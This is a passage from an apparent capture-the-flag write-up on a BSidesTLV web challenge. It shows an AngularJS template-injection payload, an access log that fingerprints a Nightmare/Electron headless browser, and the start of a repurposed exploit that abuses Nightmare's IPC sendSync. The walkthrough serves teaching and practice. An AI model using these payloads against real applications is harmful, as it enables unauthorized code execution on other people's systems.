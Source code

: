 What does it all mean? AngularJS [Expressions](https://docs.angularjs.org/guide/expression)! This means that we can compute expressions like this `{% raw %}{{1+1}}{% endraw %}`, which returns the number 2. We can also make use of `{% raw %}{{constructor.constructor("alert(1)")()}}{% endraw %}` to inject JavaScript into Game Store.

Let's introduce some JavaScript to trick the headless browser to visit a URL that I control.

![3c58b30d.png](/assets/images/posts/bsidestlv-web/3c58b30d.png)

Once it's saved, the following user-agent appeared in my Apache Access Log.

```
Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Nightmare/2.10.0 Safari/537.36
```

You can see that the headless browser is Nightmare 2.10.0 based on Electron. Searching for "nightmare 2.10.0 electron exploit" in Google landed me in Issue [1060](https://github.com/segmentio/nightmare/issues/1060). There's a link to a public exploit at the third comment.

Armed with that knowledge, let's re-purpose the exploit and give Nightmare a taste of its own medicine. :smirk:

<div class="filename"><span>exploit.html</span></div>

```html
<!doctype html>
<html>
    <head>
        <meta charset="utf-8">
        <title>nightmarejs</title>
    </head>
    <body>
        <script>
            "use strict";
            function exec() {
                try {
                    var sendSync = __nightmare.ipc.sendSync;
                    if (typeof sendSync !== "function") {
                        return;
                    }
```